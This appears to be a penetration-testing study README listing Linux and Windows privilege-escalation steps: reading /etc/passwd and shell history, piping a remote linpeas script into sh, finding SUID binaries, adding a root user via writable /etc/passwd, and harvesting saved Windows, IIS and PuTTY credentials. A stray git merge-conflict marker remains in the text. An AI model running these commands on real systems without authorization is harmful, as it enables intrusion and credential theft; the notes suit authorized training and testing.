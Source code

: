 # privellege escilation

## Enumaration

- ```hostname```

- ```uname -a```

- ```cat /proc/version```

- ```cat /etc/passwd```

- ```env```

- ```history```


To get a nice wordlist which will help you in bruteforcing for other user accounts you can cut /etc/passwd file to reduce the noise 

```cat /etc/passwd | cut -d ":" -f 1```


# linux

## Automated tools

## linpeas

* ```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```

* ```wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh```

## linenum
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh


# Tactics

## kernel exploits 
Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.


The Kernel exploit methodology is simple;

* Identify the kernel version
* Search and find an exploit code for the kernel version of the target system
* Run the exploit


Most of the cves can be found in [linux exploit cves]( https://www.linuxkernelcves.com/cves )


## Privilege Escalation: Sudo services
Any user can check its current situation related to root privileges using the ```sudo -l``` command.
[GFTOBINS](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

<<<<<<< HEAD:oscp/privescScripts/README.md
## SUID and GUID files
The first step in Linux privilege escalation exploitation is to check for files with the SUID/GUID bit set. This means that the file or files can be run with the permissions of the file(s) owner/group.
Finding suid binaries

```bash
find / -perm -u=s -type f 2>/dev/null
```

find - Initiates the "find" command

/ - Searches the whole file system

-perm - searches for files with specific permissions

-u=s - Any of the permission bits mode are set for the file. Symbolic modes are accepted in this form

-type f - Only search for files

2>/dev/null - Suppresses errors


## Exploiting a writable /etc/passwd

Understanding /etc/passwd

The /etc/passwd file stores essential information, which  is required during login. In other words, it stores user account information. The /etc/passwd is a plain text file. It contains a list of the system’s accounts, giving for each account some useful information like user ID, group ID, home directory, shell, and more.

It's simple really, if we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!

==================

# Windows

Depending on the situation, we might need to abuse some of the following weaknesses:

- Misconfigurations on Windows services or scheduled tasks
- Excessive privileges assigned to our account
- Vulnerable software
- Missing Windows security patches

Windows Users

- Administrative user
- Standard User

## Harvesting passwords from usual spots
The easiest way to gain access to another user is to gather credentials from a compromised machine.

## Powershell history

Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands

```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Saved Windows Credentials

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:
```cmd
cmdkey /list
```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.
```cmd
runas /savecred /user:admin cmd.exe
```


## IIS configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms.Here is a quick way to find database connection strings on the file:

```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```


## Retrieve Credentials from Software: PuTTY

PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve proxy info: 
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

## Sheduled Tasks

You can check sheduled tasks with the help of command 
```cmd
schtasks
```











